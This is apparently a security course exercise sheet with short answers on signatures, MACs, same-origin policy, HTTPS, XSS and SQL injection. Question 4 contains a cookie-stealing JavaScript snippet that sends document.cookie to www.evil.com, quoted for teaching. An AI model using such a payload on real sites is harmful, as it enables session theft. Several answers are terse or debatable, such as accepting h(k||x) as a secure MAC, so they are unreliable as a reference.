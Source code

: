 # Exercises sheet 3

**Correction after reading week.**

1. Barack often sends funny jokes to Hillary. He does not care about confidentiality of these messages but wants to get credit for the jokes and prevent Bill from claiming authorship of or modifying them. How can this be achieved using public-key cryptography?

	**ANS:** Barack can sign jokes with his private key.

2. As public-key cryptography is computationally intensive and drains the battery of Barack’s device, he comes up with an alternative approach. First, he shares a secret key k with Hillary but not with Bill. Next, together with a joke x, he sends over the value d = h(k||x), where h is a cryptographic hash function. Does value d provide assurance to Hillary that Barack is the author of x and that x was not modified by Bill? Justify your answer.

	**ANS:** Yes. As `k` is shared only between Hillary and Barack, no one can produce a valid d without knowing `k`. Also crypto hash are irreversible, Bill can not learn the secret `k` from d. See massege authentication code MAC slides.

3. Barack periodically comes up with brilliant ideas to stop the financial crisis, provide health care to every citizen, and save the polar bears. He wants to share these ideas with all the cabinet members but also get credit for the ideas. Extending the above approach, he shares a secret key k with all the cabinet members. Next, he broadcasts each idea z followed by value h(k||z). Does this approach work or can Tim claim that he came up with the ideas instead of Barack? Justify your answer.

	**ANS:** This approach does not work as every member of cabinet has the secret `k` and thus is capable of creating the hash, i..e Tim can also claim that z is created by him.

4. Suppose that you accedently visit a malicious site www.evil.com, which contains a JavaScript to access cookies related to your e-shopping site buy-all.bz as follows:
`<script>
img = new Image();
img.src = "http://www.evil.com/steal.php?cookie=" + document.cookie;
</script>`. Will that be successful?

	**ANS:** No. Becuase of SOP, evil.com will not be able to access the cookies related to buy-all.bz.

5. Which of the following security goals are addressed by the HTTPS protocol: (a) privacy, (b) confidentiality, (c) availability.

	**ANS:** b

6. Is it possible for an attacker to performa phishing attack if the client is using HTTPS? Why or why not?

	**ANS:** Phishing can involved tricks that range from ebing very simple, like asking your credit cards details to sophisticated ones, like redirecting you to a spoofed site. HTTPS can prevent when it comes to site identity with the help of digital certificates. In other simpler cases, it may not be useful.

7. Explain why, in general, a web server should not be allowed access to cookies set by another web server.

	**ANS:** see slides on same origin policy.
8. Summarize the difference between persistent and non-persistent cross-site scripting attacks.

	**ANS:** se slides. Among other differences, one important one is that in the case of non-persistent (reflective), the attacker has to find each individual victim and send her/him the malicious link, whereas in the case of persistant, all an attacker has to do is to just poison the server.
9. Explain why input validation mitigates the risks of SQL injection attacks.

	**ANS:** to clean the input that may contain some specal characters, like single quote.
